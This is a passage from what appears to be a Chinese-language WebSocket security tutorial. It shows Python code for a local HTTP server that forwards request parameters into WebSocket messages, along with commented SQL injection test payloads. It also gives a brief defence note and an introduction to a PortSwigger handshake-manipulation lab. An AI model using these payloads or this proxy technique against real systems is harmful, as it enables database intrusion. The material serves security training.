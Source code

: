 #send_msg("1 and 2=2-- -")
#send_msg("1 and 'a'='a'-- -")
#exit(0)

class Handler(BaseHTTPRequestHandler):

    def do_GET(self):
        self.send_response(200)
        param = self.path\[5:\]
        self.send_header('Content-Type', 'text')
        self.end_headers()
        resp = send_msg(param)
        self.wfile.write(bytes(resp, "utf-8"))

class ThreadingSimpleServer(ThreadingMixIn, HTTPServer):
    pass

def run():
    server = ThreadingSimpleServer(('0.0.0.0', 9000), Handler)

    try:
        server.serve_forever()
    except KeyboardInterrupt:
        pass

if \_\_name\_\_ == '\_\_main\_\_':
    run()

运行结果如下：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218145927-835e8aac-7ea1-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218145927-835e8aac-7ea1-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218145940-8b15b9dc-7ea1-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218145940-8b15b9dc-7ea1-1.png)

#### 防御措施

后段服务器对传递过来的所有数据进行过滤检查，一律秉持不信任的原则进行检查

### 握手过程

#### 基本介绍

部分WebSocket漏洞只能通过操纵WebSocket握手来发现和利用，这些漏洞往往涉及设计缺陷，例如:  
应用程序使用的自定义HTTP头引入的攻击面  
在HTTP标头中放错位置的信任以执行安全性决策，例如：X-Forwarded-For标头  
会话处理机制存在缺陷，因为处理WebSocket消息的会话上下文通常由握手消息的会话上下文确定

#### 简易实例

实验环境：[https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities](https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities)  
实验目的：使用WebSocket消息来触发一个alert()，支持代理浏览器中的弹出窗口

#### 实验步骤
